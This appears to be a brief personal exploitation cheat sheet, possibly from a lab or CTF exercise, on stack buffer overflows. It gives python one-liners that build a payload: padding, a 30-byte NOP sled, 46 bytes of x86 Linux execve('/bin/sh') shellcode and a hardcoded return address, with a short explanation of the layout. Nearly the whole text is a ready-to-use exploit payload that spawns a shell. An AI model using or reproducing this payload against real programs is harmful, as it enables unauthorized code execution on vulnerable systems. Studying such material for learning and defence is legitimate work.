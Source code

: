 # Exploitation


### Format for performing a BOF

`python -c 'print "A"*80+"\x90\x90\x90\x90"'`

`python -c 'print "\x90"*30+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x2e\xcf\xff\xff"'`

Exploit format: 30*NOP + shellcode(46 bytes) + return_address(4 bytes)
80-46 = 34

Return Address: 0xffffcf2e
